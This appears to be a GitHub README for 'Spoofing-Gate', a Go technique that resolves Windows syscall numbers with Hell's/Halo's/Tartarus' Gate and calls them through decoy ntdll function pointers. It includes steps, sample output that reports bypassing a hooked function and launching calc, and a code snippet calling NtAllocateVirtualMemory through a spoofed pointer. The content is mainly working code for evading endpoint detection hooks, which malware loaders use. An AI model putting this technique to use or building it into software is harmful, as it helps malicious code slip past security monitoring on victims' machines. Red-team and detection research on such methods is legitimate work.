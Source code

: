 # Spoofing-Gate
(Hellsgate|Halosgate|Tartarosgate)+Spoofing-Gate. Ensures that all systemcalls go through ntdll.dll


- get sysid from "X"gate

- use Spoofing-Gate to get the Spoofing funtion pointer

- call the pointer

- Recover

```
> .\SpfGate.exe
messPtr:0x7ff91ee2e570
Messed up the NTCreateThreadEx function, gl launching calc!
NtAllocateVirtualMemory|(fake)NtQueryInformationTransactionManager: 0x7ff91ee2f710
NtProtectVirtualMemory|(fake)NtEnumerateBootEntries: 0x7ff91ee2e910
You seem to have bypassed a hooked function... congrats (sys ID is: 193)
NtCreateThreadEx|(fake)NtCallbackReturn: 0x7ff91ee2ce00

```



```
//get sysid from "X"gate
alloc,e := gabh.MemHgate(str2sha1("NtAllocateVirtualMemory"),str2sha1)
	if e != nil {
		panic(e)
	}
  
var tmplist []string
tmplist = append(tmplist,[]string{"NtAllocateVirtualMemory"}...)


//use Spoofing-Gate to get the Spoofing funtion pointer
alloctmp,e := spfgate.SpfGate(alloc,tmplist)
if e != nil{
  panic(e)
}
tmplist = append(tmplist,alloctmp.Fakename)
fmt.Printf("NtAllocateVirtualMemory|(fake)")
fmt.Printf(alloctmp.Fakename)
fmt.Printf(": 0x%x\n",alloctmp.Pointer)

//call the pointer
r1, _,_ := syscall.Syscall6(
		alloctmp.Pointer, //ntallocatevirtualmemory
		6,
		handle,
		uintptr(unsafe.Pointer(&baseA)),
		0,
		uintptr(unsafe.Pointer(&regionsize)),
		uintptr(memCommit|memreserve),
		syscall.PAGE_READWRITE,
	)
	if r1 != 0{
		fmt.Printf("1 %x\n", r1)
		return
	}
	
	
//Recover
alloctmp.Recover()


```


